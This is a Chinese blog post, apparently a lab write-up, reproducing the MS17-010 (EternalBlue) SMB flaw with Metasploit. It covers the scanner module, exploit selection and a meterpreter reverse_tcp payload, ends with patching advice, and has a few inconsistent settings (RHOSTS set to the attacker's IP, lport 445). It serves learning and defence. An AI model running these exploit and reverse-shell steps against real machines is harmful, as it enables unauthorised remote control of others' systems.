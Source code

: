 ```yaml
---
title: MS17-010漏洞的复现
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 复现
date: 2021-01-14 14:17:47
comments: false
tags: 漏洞复现
keywords: 复现
description: MS17010 (永恒之蓝)
photos: \img\article\1.png
---
```


## MS17010 (永恒之蓝)

### 漏洞概述:

永恒之蓝漏洞是利用框架中一个针对SMB服务(445端口，主要用于连接unix系列系统和windows)进行攻击的漏洞，该漏洞导致攻击者在目标系统上可以执行任意代码。

### 漏洞原理：

MS17-010漏洞出现在的原因是SrvOs2FeaListSizeToNt在计算需要分配的内存长度时存在问题，以至于可以溢出到邻近的内存块，攻击者向 Windows SMBv1 服务器发送特殊设计的消息，可以远程命令执行。

### 环境搭建：

```
kail：192.168.182.130

win7：192.168.182.128
```

#### 注意事项：

win7需要注意以下几点：

1. 关闭防火请
2. 开启远程服务
3. kail与win7相互ping通
4. 开启445端口

### 漏洞利用

#### ***扫描sacnner

首先打开msf，命令行输入msfconsole，    //注意，当第一次使用时需要连接数据库

然后search MS17-010

![image-20210101130520362](ms17-010/image-20210101130520362.png)



```   
msf >  use auxiliary/scanner/smb/smb_ms17_010  //选择需要使用的模块
msf > show options                         //查看可设置选项 
msf >auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.182.128  //设置ip或IP段 
msf >auxiliary(scanner/smb/smb_ms17_010) > exploit     //探测是否存在漏洞
```

![image-20210101130827016](ms17-010/image-20210101130827016.png)

#### ***攻击exploit

`msf >auxiliary(scanner/smb/smb_ms17_010) > back`    //返回

可以使用谷歌语法查找到所需要的模块

`search  type:exploit name:ms17`

选择模块

![image-20210101132104270](ms17-010/image-20210101132104270.png)

```
msf > show options                         //查看可设置选项 

msf > auxiliary(smb_ms17_010) > set RHOSTS 192.168.182.130  //设置ip 
```

#### ***Payload模块

```
show payloads //选择所需要的payload

set payload   windows/x64/meterpreter/reverse_tcp  //选择payload

options	//查看选项

set lport 445 //设置端口号

set lhost 192.168.182.130 //设置主机的IP

```

options查看设置：
![image-20210101132839367](ms17-010/image-20210101132839367.png)

关键的设置无误后开始攻击 （rhost，lhost，rport，lport）

![image-20210101133441141](ms17-010/image-20210101133441141.png)

#### 获取shell：

![image-20210101134340266](ms17-010/image-20210101134340266.png)

##### 创建用户：

![image-20210101134457060](ms17-010/image-20210101134457060.png)

### 漏洞修复：

- 为计算机安装最新的安全补丁，微软已发布补丁MS17-010修复了“永恒之蓝”攻击的系统漏洞。
- 关闭445、135、137、138、139端口，关闭网络共享。
- \



![image-20210114131212603](ms17-010/image-20210114131212603.png)